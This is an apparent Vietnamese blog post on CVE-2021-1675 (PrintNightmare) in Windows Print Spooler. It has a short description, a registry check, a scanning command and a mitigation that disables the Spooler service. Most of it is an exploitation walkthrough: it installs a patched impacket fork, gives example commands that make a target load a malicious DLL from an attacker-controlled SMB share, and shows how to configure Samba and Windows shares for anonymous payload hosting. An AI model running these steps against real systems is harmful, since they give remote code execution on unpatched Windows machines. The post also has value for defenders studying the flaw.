 ```yaml
---
title: Lỗi CVE-2021-1675
date: 22/7/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
---
```


## Mô tả 
Microsoft một lần nữa đã cảnh báo người dùng của mình nên vô hiệu hóa service của Windows Print Spooler, sau khi một lỗ hổng mới được phát hiện cho phép hacker có thể cài và thực thi mã độc, virus lên bất cứ PC chạy Windows 10 nào. Mặc dù bản vá sửa lỗi sẽ được Microsoft phát hành sớm nhất có thể, nhưng gã khổng lồ công nghệ khuyến cáo rằng giải pháp hiệu quả nhất hiện nay là vô hiệu hóa hoàn toàn service của Windows Print Spooler.

Đây là lỗ hổng Windows Print Spooler thứ 3 được phát triển chỉ sau năm tuần. Trong khi một lỗ hổng nghiêm trọng khác liên quan đến Windows Print Spooler được xác định và sau đó được Microsoft vá lỗi vào tháng 6 thì gần đây lại xuất hiện một lỗ hổng tương tự mang tên PrintNightmare cũng được Microsoft vá lỗi trong bản cập nhật Windows 10 mới đây. Sự xuất hiện của lỗ hổng mới này là một sự thất vọng của người dùng Windows 10 đối với Microsoft.

Việc triển khai Impacket của PrintNightmare PoC ban đầu được tạo bởi Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@ lxf02942370)

Thực thi DLL từ xa

![](https://github.com/cube0x0/CVE-2021-1675/blob/main/Images/poc2.png)


## Cập nhật bản vá 

Microsoft đã phát hành một bản vá để giảm thiểu các cuộc tấn công này nhưng nếu các giá trị dưới đây xuất hiện trên máy thì máy vẫn dễ bị tấn công

```powershell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

## Khai thác 

Trước khi chạy khai thác, bạn cần cài đặt phiên bản Impacket
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

```powershell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install

```


Mã Khai thác [CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)

```powershell
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'

```

Cấu hình MB Cách dễ nhất để lưu trữ tải trọng là sử dụng samba và sửa đổi `/etc/samba/smb.conf` để 
cho phép truy cập ẩn danh

```shell 
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser

```
```powershell
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```
## Scanning 
Tác giả  sử dụng rpcdump.py từ impacket để quét các máy chủ tiềm ẩn dễ bị tấn công, nếu nó trả về một giá trị, nó có thể dễ bị tấn công

```powershell
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol

```

## Hạn chế bị tấn công 
Tắt dịch vụ Bộ đệm
```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f

```

## Thanks 